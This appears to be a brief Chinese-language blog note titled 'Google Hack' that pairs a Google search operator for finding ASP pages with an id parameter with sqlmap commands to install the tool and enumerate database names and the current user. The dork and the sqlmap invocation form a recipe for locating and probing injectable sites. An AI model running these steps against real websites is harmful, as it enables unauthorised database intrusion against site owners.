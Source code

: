 ```yaml
---
layout: post
title: Google Hack
categories: [hack]
---
```


```
公司 inurl:asp?id=
```

安装 sqlmap

brew install sqlmap


扫描数据库名

sqlmap -u url --dbs --current-user


